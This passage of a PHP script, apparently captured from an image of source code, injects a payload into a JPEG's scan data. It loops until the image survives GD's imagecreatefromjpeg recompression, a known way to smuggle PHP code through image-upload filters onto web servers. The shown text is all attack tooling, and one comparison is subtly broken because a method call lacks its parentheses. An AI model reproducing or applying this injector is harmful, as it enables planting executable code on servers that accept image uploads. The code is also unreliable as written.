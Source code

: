 ```php
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;
 
        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }
 
        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');
 
    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
```